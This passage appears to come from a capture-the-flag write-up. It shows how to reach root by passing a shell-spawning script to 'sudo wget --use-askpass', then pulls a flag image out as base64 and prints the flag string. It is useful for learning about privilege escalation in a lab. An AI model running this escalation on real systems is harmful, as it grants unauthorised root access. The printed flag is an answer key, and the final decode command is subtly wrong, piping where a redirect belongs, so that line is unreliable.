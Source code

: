 We could technically use `/bin/sh` as the command but `--use-askpass` passes
parameter on the commandline which break the shell spawing. Thus we create a
file with our shell spawning command and then give this script as the askpass
command. This consumes all parameters and throws them away. The rest is just 
fluff to make the file a tempfile:
```sh
TF=$(mktemp) # Make a temporary file
chmod +x $TF # Make the file executable
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF # Put our shell spawning command in it
sudo wget --use-askpass=$TF 0 # Runn the command
```

The `1>&0` just redirects stdout to stdin. I am not exactly sure why this is 
done but I know if we don't do it we can't see the output of our commands. It
probably has something to do with how wget interacts with stdin and stdout.
{% end %}

Let's run the mentioned script.

```sh,name=whoami
root
```

So we are root. We've done it! Let's get the image onto our machine. We can't
put any ssh public key in because when we connect with another session another
docker container is run, without our added key. So we can't use scp. The
'easiest' way to do this for me was to base64 encode the image copy all over 
and decode it again:
```txt,name=cat IMG_202509161627.jpg | base64
/9j/4QBORXhpZgAATU0AKgAAAAgAAwEaAAUAAAABAAAAMgEbAAUAAAABAAAAOgEoAAMAAAABAAIA
AAAAAAAACvyAAAAnEAAK/IAAACcQAAAAAP/tAEBQaG90b3Nob3AgMy4wADhCSU0EBgAAAAAABwAG
AQEAAQEAOEJJTQQlAAAAAAAQAAAAAAAAAAAAAAAAAAAAAP/uACFBZG9iZQBkQAAAAAEDABADAgMG
AAAAAAAAAAAAAAAA/9sAhAACAgICAgICAgICAwICAgMEAwICAwQFBAQEBAQFBgUFBQUFBQYGBwcI
BwcGCQkKCgkJDAwMDAwMDAwMDAwMDAwMAQMDAwUEBQkGBgkNCgkKDQ8ODg4ODw8MDAwMDA8PDAwM
DAwMDwwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAz/wgARCAHgAiADAREAAhEBAxEB/8QA6wAA
AQQDAQEBAAAAAAAAAAAAAgEDBAUABgcICQoBAQEBAQEBAQEAAAAAAAAAAAABAgMEBQYHEAABAwMD
AwMDAwQDAQEAAAABAAIDEQQFEAYHICESMRMIMEAiUEEUMiMVCTMWFyQYEQABAwIEAwUEBwUGBAQF
BQABEQIDAAQhMRIFQVEGEGFxIhOBkTIHIKGxwUIjFPDRUjMVMOFicoIk8UMWCJKyUxeiwjREJWNz
g7M1EgABAwEFBQYEBQMEAwAAAAABABEhAhAgUDFBMFFhcRJAYKGxIgOBkcHRcPDhMhPxUiOAQnKC
...
```

I copied (again) only a bit of the output. But we can just use this, copy all, 
put it into a file and then convert it back to binary:

`cat img.base64 | base64 -d | img.jpg`

<center>
<img src="../flag.jpg" alt="Picture of a whiteboard with the flag on it">
</center>

And thus we get the last flag:

`deadface{hostbusters8_70139688d8cead3}`

---

